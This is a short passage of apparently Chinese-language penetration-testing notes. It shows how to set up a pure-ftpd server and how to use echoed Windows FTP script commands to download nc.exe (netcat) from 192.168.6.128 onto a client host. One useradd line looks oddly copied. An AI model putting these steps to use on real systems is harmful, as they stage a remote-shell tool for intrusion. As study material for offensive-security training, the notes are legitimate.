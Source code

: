 Server:

apt-get install pure-ftpd

ftp用户创建脚本(755):

\#!/bin/bash

groupadd ftpgroup

useradd -g ftpgroup -d /dev/null -s /etc ftpuser

pure-pw useradd username -u ftpuser -d /ftphome

pure-pw mkdb

cd /etc/pure-ftpd/auth/

ln -s ../conf/PureDB 60pdb

mkdir -p /ftphome

chown -R ftpuser:ftpgroup /ftphome/

/etc/init.d/pure-ftpd restart

![](media/a6302dd5aab1f5810b72d3cf1a862536.png)

Client:

echo open 192.168.6.128 21\>ftp.txt

echo USER scotoma8\>\>ftp.txt

echo scotoma8\>\>ftp.txt

echo bin \>\>ftp.txt

echo GET nc.exe \>\>ftp.txt

echo bye \>\>ftp.txt

ftp -v -n -s:ftp.txt

![](media/c0d83add74fb6ad724a5d3e752d49f00.png)

3. Uploading Files Using Scripting Languages
